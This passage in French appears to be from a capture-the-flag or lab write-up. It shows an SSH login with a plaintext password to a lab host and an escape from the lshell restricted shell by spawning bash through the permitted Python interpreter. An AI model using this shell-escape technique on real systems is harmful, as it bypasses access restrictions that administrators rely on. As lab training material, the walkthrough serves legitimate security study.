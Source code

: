 ## Évasion du shell restreint lshell et élévation de privilèges (root)

Le compte Squiddie dispose d'un [environnement restreint](https://en.wikipedia.org/wiki/Restricted_shell) (en l'occurrence [lshell](https://github.com/ghantoos/lshell)). Contrairement aux shells habituels, plusieurs restrictions sont mises en place ; citons par exemple l'interdiction d'afficher le contenu d'un fichier ou celle de modifier des variables d'environnement.

```console
root@kali:~# sshpass -p 'Squ1d4r3Th3B3$t0fTh3W0rLd' ssh squiddie@192.168.56.112 -p 65507
Welcome to Ubuntu 18.04.1 LTS (GNU/Linux 4.15.0-36-generic x86_64)
--snip--
You are in a limited shell.
Type '?' or 'help' to get the list of allowed commands

squiddie:~$ help
cd  clear  exit  help  history  lpath  ls  lsudo  pwd  python  whoami

squiddie:~$ cat /etc/passwd
*** forbidden command -> "cat"
*** You have 1 warning(s) left, before getting kicked out.
This incident has been reported.

squiddie:~$ echo /etc/passwd
*** forbidden command -> "echo"
*** You have 0 warning(s) left, before getting kicked out.
This incident has been reported.

squiddie:~$ vi
*** forbidden command -> "vi"
*** Kicked out
Connection to 192.168.56.112 closed.
```

Cependant, l'article [_Escaping Restricted Linux Shells_](https://www.sans.org/blog/escaping-restricted-linux-shells/) posté sur le site du SANS Institute par Doug Stilwell donne une astuce très précieuse : il est possible d'élever nos privilèges et d'obtenir un shell moins restreint à partir du binaire Python, l'un des seuls autorisés pour le compte de Henry.

```console
squiddie:~$ whoami
squiddie

squiddie:~$ python
Python 2.7.15rc1 (default, Apr 15 2018, 21:51:34) 
[GCC 7.3.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>>
>>> import os; os.system("/bin/bash")

squiddie@jetty:~$ 

squiddie@jetty:~$ uname -srm
Linux 4.15.0-36-generic x86_64

squiddie@jetty:~$ echo $SHELL
/usr/bin/lshell
```
